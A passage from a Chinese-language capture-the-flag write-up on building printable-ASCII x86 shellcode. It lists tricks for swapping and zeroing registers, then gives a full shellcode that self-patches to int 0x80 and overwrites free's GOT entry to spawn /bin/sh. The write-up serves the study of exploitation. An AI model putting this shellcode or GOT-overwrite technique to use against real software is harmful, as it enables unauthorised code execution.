 ```sh

<=> jmp lable

6.交换al, ah
push eax
xor ah, byte ptr [esp] // ah ^= al
xor byte ptr [esp], ah // al ^= ah
xor ah, byte ptr [esp] // ah ^= al
pop eax

7.清零:
push 44h
pop eax
sub al, 44h ; eax = 0

push esi
push esp
pop eax
xor [eax], esi ; esi = 0

当然，上面汇编指令中的立即数大小也需要在可打印字符范围内。
```

然后经过长时间探索...我的方法最终成功了刚刚看了看大家的我感觉我的shellcode还是挺短的

* int 0x80通过sub byte ptr[eax + 0x23] , dl来获得(先pop eax得到一个heap上地址 然后可以对其做一些操作变成自己想要的值 dl通过 push pop 来设置)例如:
```s
sub al,0x2e
sub byte ptr[eax + 0x23] , dl
sub byte ptr[eax + 0x23] , dl
push 0x33
pop edx
sub byte ptr[eax + 0x22] , dl
pop edx
```
* 为了更容易得到sh我改写的是free的got
* 实地考察发现在call free的时候ebx=0& ecx=0 & eax=address_of_/bin/sh
* 所以我们只需要用push pop sub搞出个0xb就可以了
具体shellcode如下
```python
shellcode='''
push eax
pop ebx
pop eax
pop eax
push edx
push 0x40
pop edx

sub al,0x2e
sub byte ptr[eax + 0x23] , dl
sub byte ptr[eax + 0x23] , dl
push 0x33
pop edx
sub byte ptr[eax + 0x22] , dl
pop edx

push 0x6b
pop eax
sub al,0x60
'''
```


[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert